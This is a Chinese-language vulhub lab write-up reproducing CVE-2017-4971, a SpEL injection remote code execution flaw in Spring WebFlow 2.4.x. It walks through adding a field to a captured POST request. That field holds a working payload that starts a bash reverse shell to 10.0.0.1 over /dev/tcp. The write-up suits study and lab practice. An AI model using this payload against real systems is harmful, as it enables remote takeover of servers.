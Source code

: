 

# Spring WebFlow 远程代码执行漏洞（CVE-2017-4971）

###### by ADummy

### 0x00利用路线

​			burpuite抓包--->改包--->SpEL命令执行

### 0x01漏洞介绍

​			Spring WebFlow 是一个适用于开发基于流程的应用程序的框架（如购物逻辑），可以将流程的定义和实现流程行为的类和视图分离开来。在其 2.4.x 版本中，如果我们控制了数据绑定时的field，将导致一个SpEL表达式注入漏洞，最终造成任意命令执行。

​			影响版本

  		2.4.x

### 0x02漏洞复现

​	访问`http://your-ip:8080`，将看到一个酒店预订的页面，这是spring-webflow官方给的简单示例：

![Spring_WebFlow_RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Spring_WebFlow_RCE_1.jpg)

​	访问`http://your-ip:8080/login`，用页面左边给出的任意一个账号/密码登录系统：

![Spring_WebFlow_RCE_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Spring_WebFlow_RCE_2.jpg)

​	再点击确认“Confirm”：

![Spring_WebFlow_RCE_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Spring_WebFlow_RCE_3.jpg)

此时抓包，抓到一个POST数据包，我们向其中添加一个字段（也就是反弹shell的POC）：

```
_(new java.lang.ProcessBuilder("bash","-c","bash -i >& /dev/tcp/10.0.0.1/21 0>&1")).start()=vulhub

"bash -i >& /dev/tcp/10.0.0.1/21 0>&1" //此部分需要url编码
```

![Spring_WebFlow_RCE_4](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Spring_WebFlow_RCE_4.jpg)

